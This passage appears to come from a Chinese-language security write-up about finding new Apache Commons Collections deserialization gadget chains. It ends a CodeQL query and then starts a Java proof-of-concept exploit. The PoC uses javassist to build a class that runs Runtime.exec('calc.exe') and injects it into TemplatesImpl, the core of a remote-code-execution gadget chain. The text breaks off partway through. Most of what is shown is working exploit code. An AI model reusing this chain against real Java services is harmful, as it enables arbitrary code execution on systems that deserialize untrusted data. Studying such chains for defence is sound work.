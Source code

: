```
    not getDeclaringType().hasName("InvokerTransformer") and
    not getDeclaringType().hasName("ChainedTransformer") and
    not getDeclaringType().hasName("ConstantTransformer") and
    not getDeclaringType().hasName("InstantiateTransformer") and
    this.getNumberOfParameters() = 1

  }
}
query predicate edges(Callable a,Callable b) {
  a.polyCalls(b)
}
from NewCC end,GetterCallAble src,Callable c
where end.getCallee() = c and
  edges+(src, c)
select end.getCaller(),src,end.getCaller(),"CC"
```

poc如下

```
package NewCC;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Factory;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InstantiateFactory;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class Newcc {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] bytes = STU.toBytecode();
        byte[][] targetbytes = new byte[][]{bytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFiledValue(templates,"_bytecodes",targetbytes);
        setFiledValue(templates,"_name","DawnT0wn");
        setFiledValue(templates,"_class",null);

```